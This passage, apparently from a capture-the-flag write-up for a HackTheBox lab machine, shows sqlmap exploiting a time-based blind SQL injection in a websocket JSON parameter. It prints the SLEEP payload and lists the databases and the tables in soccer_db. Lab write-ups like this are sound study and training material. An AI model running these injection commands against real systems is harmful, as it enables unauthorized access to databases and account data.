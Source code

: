 The target is vulnerable to `sqli` and it uses `mysql` as a database.

Let's scan for databases.

```terminal
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"12345"}' --batch --dbs                  
        ___ 
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . ["]     | .'| . |               
|___|_  [)]_|_|_|__,|  _|               
      |_|V...       |_|   https://sqlmap.org      
    
sqlmap resumed the following injection point(s) from stored session:          
---         
Parameter: JSON id ((custom) POST)      
    Type: time-based blind              
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                 
    Payload: {"id":"12345 AND (SELECT 6529 FROM (SELECT(SLEEP(5)))jDSa)"}     
---         
[20:29:24] [INFO] the back-end DBMS is MySQL      
back-end DBMS: MySQL >= 5.0.12          
[20:29:24] [INFO] fetching database names         
[20:29:24] [INFO] fetching number of databases    
[20:29:24] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)        
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y    
[20:30:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions               
5
[20:30:14] [INFO] retrieved: 
[20:30:20] [INFO] adjusting time delay to 3 seconds due to good response times

available databases [5]:                [*] information_schema                  
[*] mysql       
[*] performance_schema              
[*] soccer_db                          
[*] sys     
```

We found the database `soccer_db`. Let's scan for tables.

```terminal
★]$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"12345"}' --batch -D soccer_db --tables             
        ___                   
       __H__                                                                                   
 ___ ___[']_____ ___ ___  {1.8.3#stable}                                                       
|_ -| . ["]     | .'| . |                                                                      
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                     
      |_|V...       |_|   https://sqlmap.org       

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```
